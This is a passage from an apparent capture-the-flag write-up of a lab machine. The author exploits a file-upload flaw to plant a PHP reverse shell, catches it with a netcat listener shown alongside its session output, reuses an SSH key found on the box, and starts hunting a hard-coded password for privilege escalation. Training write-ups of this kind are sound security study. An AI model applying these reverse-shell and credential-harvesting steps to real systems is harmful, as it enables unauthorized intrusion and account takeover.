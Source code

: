 Here I search and find an advisory about smuggling PHP files through the upload and then executing them ([found here](https://github.com/advisories/GHSA-g857-47pm-3r32)). There is a specific exploit script [here on github by IDUZZEL](https://github.com/IDUZZEL/CVE-2023-24249-Exploit). I won't need this though as the exploit happens when you upload a file ending in an image extension, and you intercept and change that extension, no server-side check happens within this version.

I upload my pentestmonkey.php file for a simple shell and upload it, then head to /uploads/images/pentestmonkey.php and pop a shell not as www-data but as a user.

```bash
nc -nvlp 7777

Listening on 0.0.0.0 7777
Connection received on 10.10.11.18 60164
Linux usage 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 02:07:40 up  4:36,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(dash) gid=1000(dash) groups=1000(dash)
bash: cannot set terminal process group (1228): Inappropriate ioctl for device
bash: no job control in this shell
dash@usage:/$ id
id
uid=1000(dash) gid=1000(dash) groups=1000(dash)
dash@usage:/$ ls /home
ls /home
dash
xander
dash@usage:/$ cd /home/dash
cd /home/dash
dash@usage:~$ ls
ls
user.txt
dash@usage:~$ cat user.txt
cat user.txt
fd70b103607e29-------------------
```

There is a keypair present in .ssh so I'll ssh in for a full TTY. 

```bash
ssh -i id_rsa dash@usage.htb
...
dash@usage:~$ find / -user xander 2>/dev/null
/home/xander
```

# Root

## Pivot to xander

In the home directory of dash I find series of files relating to Monit. I look around the rc file and find a hard coded password.
